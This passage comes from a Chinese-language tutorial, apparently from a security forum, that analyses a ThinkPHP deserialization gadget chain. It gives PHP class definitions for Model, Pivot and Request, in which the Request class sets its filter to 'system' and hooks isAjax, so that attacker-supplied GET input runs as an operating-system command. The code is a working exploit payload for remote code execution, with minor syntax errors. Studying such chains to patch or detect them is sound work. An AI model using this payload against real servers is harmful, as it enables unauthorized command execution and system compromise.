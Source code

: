 ```php
namespace think\model;
use think\Model;
class Pivot extends Model
{
}
namespace think;
use InvalidArgumentException;
use think\db\Query;
abstract class Model
{
    protected $append=[];
    private $data=[];
    //这里是toArray()里面的以$key为中心的操作,回顾源码$name对于的就是$key,上面以及提到
    function __construct{
        $this->append=["l1_Tuer"=>["1"]];
         $this->data=["l1_Tuer"=>new Request()];
    }
}
```

在进入 `Request()` 并触发 `__call` 方法时，我们需要通过使用 `hook` 这个桥梁来连接其他函数。`call` 传递了两个参数，分别是 `visible` 和 `$name`。在这个位置，我们需要将 `hook[$method]` 和我们之前分析的 `isAjax()` 进行关联。需要注意的是，在这里的 `config`，我们只是因为调用实参而使用它，并不需要传递任何值，将其设置为空即可。否则，后面代码中的 `$data` 将无法成功传递到我们的危险函数中。

```php
namespace think
use think\facade\Cookie;
use think\facade\Session;
class Request{
    protected $hook = [];
    protected $filter = "system";
    protected $config = ['var_ajax'=>'',];
    function __construct(){
        $this->hook = ['visible'=>[$this,"isAjax"]];
        $this->filter = "system";
        $this->config = ['var_ajax'=>'',];
    }
```

`$this->$config = ['var_ajax'=>'',];`如果设置为空，那我们get传入的变量名可以为任意值，但是定义了之后，get传入的变量名就只能是我们定义的变量名。

我们var\_dump一下

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-1cc26f020aeb77adcb7d2909b7fcb7c45f17ea55.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-c2b02a852b0a58be578dbbae7d38dafe45af2489.png)
